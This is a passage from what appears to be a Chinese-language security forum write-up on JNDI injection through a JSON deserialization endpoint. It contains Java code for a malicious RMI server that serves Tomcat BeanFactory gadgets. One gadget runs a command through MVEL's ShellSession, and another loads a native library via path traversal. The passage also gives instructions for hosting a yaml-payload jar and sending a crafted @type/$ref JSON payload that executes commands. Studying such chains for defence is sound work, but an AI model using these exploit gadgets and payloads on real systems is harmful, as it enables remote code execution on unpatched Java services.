 ```java
        ref.add(new StringRefAddr("forceString", "a=exec"));
        ref.add(new StringRefAddr("a",
                "push Runtime.getRuntime().exec('calc');"));
        System.out.println("请检查当前项目是否存在org.mvel2.sh.ShellSession#exec");
        return ref;
    }

    private static ResourceRef tomcat_loadLibrary(){
        ResourceRef ref = new ResourceRef("com.sun.glass.utils.NativeLibLoader", null, "", "",
                true, "org.apache.naming.factory.BeanFactory", null);
        ref.add(new StringRefAddr("forceString", "a=loadLibrary"));
        ref.add(new StringRefAddr("a", "/../../../../../../../../../../../../tmp/libcmd"));
        System.out.println("该漏洞需要结合一个文件上传点上传一个'动态链接库文件',然后通过loadLibrary函数对这个动态链接库文件进行加载进而触发漏洞");
        return ref;
    }

    public static void main(String[] args) throws Exception{
        LocateRegistry.createRegistry(1099);

        ReferenceWrapper referenceWrapper = new ReferenceWrapper(tomcat_snakeyaml());
        Naming.rebind("rmi://0.0.0.0:1099/Exploit",referenceWrapper);
        System.out.println("RMI Server Start Working...");

    }
}
```

运行之后在, 本地80端口开启一个http服务,并且将 **[yaml-payload](https://github.com/artsploit/yaml-payload)** 项目生产的`yaml-payload.jar`包放到目录下(执行什么命令由项目`AwesomeScriptEngineFactory.java`文件中的构造函数指定 ).

之后发送payload成功执行命令

```http
{"content" : {"@type": "ycb.simple_json.service.JNDIService", "target":"rmi://127.0.0.1:1099/Exploit"}, "msg":{"$ref":"$.content.context"}}
```

![image-20220907221624508](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-a95251fc86cfbbf65c3348c687665deada4bf25e.png)

![image-20220907211213752](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-b0f36138753f5117b66a24e0a829d01b6618a7a3.png)

![image-20220907211217167](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-d347185db70381c63f756ea03352925ed56b63f1.png)

0x07 学习链接
=========

[https://mp.weixin.qq.com/s?biz=MzAxNTg0ODU4OQ==&amp;mid=2650358440&amp;idx=1&amp;sn=e005f721beb8584b2c2a19911c8fef67&amp;chksm=83f0274ab487ae5c250ae8747d7a8dc7d60f8c5bdc9ff63d0d930dca63199f13d4648ffae1d0](https://mp.weixin.qq.com/s?biz=MzAxNTg0ODU4OQ==&mid=2650358440&idx=1&sn=e005f721beb8584b2c2a19911c8fef67&chksm=83f0274ab487ae5c250ae8747d7a8dc7d60f8c5bdc9ff63d0d930dca63199f13d4648ffae1d0)

[https://mp.weixin.qq.com/s/Dq1CPbUDLKH2IN0NA\_nBDA](https://mp.weixin.qq.com/s/Dq1CPbUDLKH2IN0NA_nBDA)

[https://tttang.com/archive/1405/#toc\_mlet](https://tttang.com/archive/1405/#toc_mlet)